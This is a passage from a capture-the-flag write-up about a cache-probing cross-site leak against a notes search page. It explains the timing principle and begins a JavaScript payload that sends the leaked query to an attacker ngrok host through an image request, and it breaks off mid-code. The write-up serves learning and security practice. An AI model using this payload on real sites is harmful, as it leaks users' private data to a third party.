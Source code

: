 Remember how `y.png` and `n.png` images are loaded based on the search output?

```javascript
if (note.includes(query)) {
  console.log('found');
  output.innerHTML =
    'found! <br/><img src="https://sigpwny.com/uiuctf/y.png"></img>';
} else {
  console.log('not found');
  output.innerHTML =
    'nope.. <br/><img src="https://sigpwny.com/uiuctf/n.png"></img>';
}
```

Perhaps we can perform a [cache probing](https://xsleaks.dev/docs/attacks/cache-probing/) attack to determine whether the search was successful. The principle is as follows:

1. The victim visits the attacker-controlled site. The attacker-controlled site loads an iframe of the notes site, with a search query. If the search query is a substring of the flag, then the `https://sigpwny.com/uiuctf/y.png` image is fetched and cached.
2. The attacker-controlled site fetches the `https://sigpwny.com/uiuctf/y.png` image.
3. By calculating the time taken to fetch the image, the attacker-controlled site can determine whether the image was cached (the time taken would be significantly lower).

This would allow us to brute-force the flag character by character.

### Setting Up The Attack

To implement the cache probing attack, we need to come up with a JavaScript payload that would be run on the victim's browser to determine whether the image was cached. 

We define an `onFrameLoad()` function that will be called when the iframe of the notes site, containing the search query, is loaded.

```javascript
function onFrameLoad()
{
    setTimeout(() => {
        var xhr = new XMLHttpRequest();

        function exfil(cached, duration) {
        
            if (cached)
            {
                img = new Image();
                img.src = "http://964fb36503ae.ngrok.io/?cached=" + document.getElementById('iframe').src.split('#')[1];
            }
        }
        
        function check_cached(xhr, src) {
        
            var startTime = performance.now();
            
            xhr.open("GET", src);
            xhr.onreadystatechange = function () {
        
                if (xhr.readyState === 4) {
        
                    // check if image was cached based on response time
                    // if image was loaded in iframe, it would be cached
                    
                    var endTime = performance.now();
                    duration = endTime - startTime;
                    console.log(duration);
        
                    if (duration < 10)
```